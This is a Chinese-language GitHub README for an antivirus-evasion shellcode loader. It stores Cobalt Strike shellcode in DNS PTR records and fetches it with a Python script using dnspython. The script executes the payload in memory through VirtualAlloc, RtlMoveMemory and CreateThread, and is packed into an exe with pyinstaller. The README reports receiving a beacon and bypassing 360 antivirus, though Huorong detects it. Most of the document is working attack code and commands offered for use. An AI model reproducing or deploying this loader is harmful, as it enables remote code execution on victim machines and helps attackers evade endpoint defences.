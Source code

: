 # DnsPTRShellcodeLoader
利用DNS的PTR记录远程加载shellcode
DNS解析中的PTR记录负责反向解析，即把IP地址解析为域名。利用PTR记录保存shellcode，然后通过dns请求获取到shellcode后执行，来达到免杀的目的。

PTR记录的两个特性

1.不区分大小写，dns解析结果统一转为小写

2.格式不定，可以出现包括“!@#$%^&*()_+=/?<>”在内的各种特殊字符和空格，只有反斜杠“\”会被过滤。







在本地服务器添加

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/55f3eca3-d8ea-4169-a549-326d7d2c8f0b.png)](https://imgbed.cn/preview?id=6038a9145dc5370001f7945a)



进行反向解析查询，192.168.111.135为DNS服务器的ip

```
nslookup -qt=ptr 192.168.111.1 192.168.111.135
```



可以看到成功获取了之前设置好的内容，可以把这一段代码替换成shellcode

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/15a83f1b-d165-43f1-a686-f9d8bcb36d54.png)](https://imgbed.cn/preview?id=6038a92234dcf30001560686)



用cs生成shellcode，由于shellcode本质是一串十六进制的机器码，因此可以先去掉前面的转义字符\x并以字符串的形式保存在PTR记录中，执行时再转为十六进制格式，也符合PTR记录中不能出现反斜杠的规则

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/e10794e5-a243-4aa6-9733-36ea2f2d29d6.png)](https://imgbed.cn/preview?id=6038a9299efdd1000197edba)



分割shellcode，每个ip对应的PTR记录保存一行，这里添加的IP为192.168.111.20-192.168.111.59

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/ed33f484-e269-47da-9eb8-4977fe010783.png)](https://imgbed.cn/preview?id=6038a92ff6094a0001be155e)

去掉所有的\x，把它们分割成多个部分按照顺序添加到PTR记录中



[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/639345d2-490c-4ccd-b8c2-a486d3f743d1.png)](https://imgbed.cn/preview?id=6038a93854a29f0001250fb6)



只需要按照顺序对相应的ip发起请求即可获得部分shellcode

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/89663213-ac73-4f85-8f87-482c5a632e42.png)](https://imgbed.cn/preview?id=6038a943002aec0001e11199)



利用python的dnspython库获取PTR记录中的shellcode，然后分配内存执行

```python
import dns.resolver
import dns.reversename
import ctypes

dnsip='192.168.111.135'

def LoadshellCode(shellcode):   #执行shellcode
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))

def requestptr(dnsip,ipnum):      #获取PTR记录
    ipaddr='192.168.111.%d' %ipnum    #添加的PTR记录中主机ip地址的C段地址
    ip=dns.reversename.from_address(ipaddr)
    my_resolver = dns.resolver.Resolver()
    my_resolver.nameservers = [dnsip]
    answer = my_resolver.resolve(ip,'PTR')
    recvptr=str(answer[0]).strip('.')
    return recvptr

def str2hex(shellcodedemo):    #将得到的shellcode转为十六进制
    s=''
    s1=b''
    for i in range(int(len(shellcodedemo))):
        if i % 2 == 0:
            s1 += bytes.fromhex(shellcodedemo[i:i + 2])
    return bytearray(s1)

if __name__=='__main__':
    s=''
    for i in range(20,60):    #根据添加的ip范围进行请求，192.168.111.20-192.168.111.59对应range(20,60)
        s+=requestptr(dnsip,i)
    LoadshellCode(str2hex(s))
```





使用pyinstaller打包成exe文件，

```
pyinstaller -F -w dnsptrshellcode.py
```

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/437f09e7-a1de-4344-8d2d-3265203b6084.png)](https://imgbed.cn/preview?id=6038a9d65fd5720001ff8f56)



pyinstaller默认一并打包所有库，造成生成的exe文件体积过大，可以利用虚拟环境打包的方式压缩下体积，压缩后的体积大概为3M左右

https://blog.csdn.net/p1967914901/article/details/109706449



拿到beacon

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/f21e02d7-fa49-44ad-a572-2d9765a1ebe2.png)](https://imgbed.cn/preview?id=6038a94a171e740001e39ed5)

可以绕过360，但被火绒查杀

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/91fead06-ff05-4440-ba4b-152483127bcb.png)](https://imgbed.cn/preview?id=6038a95c6cea45000126276c)
[![6d3ODf.png](https://s3.ax1x.com/2021/03/13/6d3ODf.png)](https://imgtu.com/i/6d3ODf)

参考：

https://www.freebuf.com/articles/network/185324.html
